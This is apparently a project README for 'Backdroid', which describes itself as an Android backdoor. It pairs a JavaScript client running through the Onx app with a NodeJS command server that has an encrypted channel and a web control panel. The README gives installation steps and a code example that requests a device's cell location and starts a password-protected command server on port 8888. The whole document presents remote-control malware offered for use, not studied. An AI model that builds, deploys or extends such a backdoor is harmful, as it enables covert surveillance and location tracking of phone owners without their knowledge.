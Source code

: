 Backdroid v1.0.0 BETA
==================================================

What is this?
--------------------------------------

it's a backdoor for Android formed by a client written in JavaScript, with the help of http://onx.ms/, and a server written in NodeJS.

Features
--------------------------------------

	Encrypted connection in AES-256
	Web panel control
	Very flexible and scalable to add new features

How to install?
--------------------------------------

  - Download and install NodeJS (http://nodejs.org/).
  - Install backdroid with npm by the console (npm install -g backdroid).
  - Download and install Onx App for Android (https://play.google.com/store/apps/details?id=com.microsoft.onx.app).
  - Login in https://www.onx.ms/.
  - Download backdroid proyect (https://github.com/yeikos/backdroid/zipball/master).
  - Copy client.js source code (https://github.com/yeikos/backdroid/blob/master/client.js) and paste it into https://www.onx.ms/#!createScriptPage (new rule).
  - Go to examples project folder and launch each example by the console (node SCRIPTNAME).

Example
--------------------------------------
	
	var backdroid = require('backdroid');

	backdroid.setCommand('location', { provider: 'CELL' }, function(command, value) {

		console.log('[sent]', command, value);

	}, function(command, value, response) {

		console.log('[response]', command, value, response);

	});

	backdroid.createCommandServer({

		password: 'secret',
		password_encryptation: 'secret123',
		
		port: 8888

	});